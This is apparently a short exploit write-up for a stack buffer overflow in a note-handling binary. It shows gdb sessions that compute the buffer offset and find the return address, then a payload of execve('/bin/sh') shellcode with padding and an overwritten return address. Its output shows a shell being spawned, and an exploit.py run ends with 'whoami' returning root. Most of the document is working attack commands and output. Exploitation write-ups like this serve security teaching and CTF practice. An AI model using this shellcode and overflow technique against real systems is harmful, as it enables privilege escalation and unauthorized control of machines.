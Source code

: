 # How it works
0x0000000000000bae <+39>:	lea    -0x70(%rbp),%rax

- 112 + 14 to the stack == 126

(gdb) break main
Breakpoint 1 at 0x555555554b8b

(gdb) run $(python -c 'print "A"*120')
Breakpoint 1, 0x0000555555554b8b in main ()

(gdb) print $rbp - 0x70
$1 = (void *) 0x7fffffffe090

(gdb) run $(python -c 'print "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + "A"*90 + "\x7f\xff\xff\xff\xe0\x90"[::-1]')

The program being debugged has been started already.

Breakpoint 1, 0x0000555555554b8b in main ()
(gdb) c
Continuing.
H1�H�//bin/shH�SH��PWH���;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����
-------[ end of note data ]-------
process 27222 is executing new program: /bin/dash
Error in re-setting breakpoint 1: Function "main" not defined.
# 

- We use $rbp - 0x70 as the return address in exploit.py

# How to use exploit
root@kali:~# python exploit.py 
- [DEBUG] found a 10 byte note for user id 0
- -------[ end of note data ]-------
- process 7588 is executing new program: /bin/dash
- ~# whoami
- root
